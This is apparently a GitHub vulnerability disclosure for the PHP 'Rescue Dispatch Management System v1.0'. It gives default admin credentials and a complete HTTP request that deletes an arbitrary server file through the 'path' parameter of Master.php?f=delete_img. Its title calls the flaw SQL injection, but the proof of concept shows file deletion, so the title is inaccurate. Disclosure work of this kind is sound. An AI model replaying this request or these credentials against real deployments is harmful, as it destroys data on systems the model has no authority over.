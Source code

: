 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_img

Vulnerability location: /rdms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /rdms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=system_info
Content-Length: 45
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Frdms%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/170451208-27e18700-0846-4c82-898c-2f7966709498.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/170451437-2b455a27-0186-458a-afa0-e53bae81acca.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/170451510-e563499e-33f0-4467-9fee-d462c9ea59a4.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/170451573-6535fd73-46e8-4720-bac9-72c8cf8adefc.png)
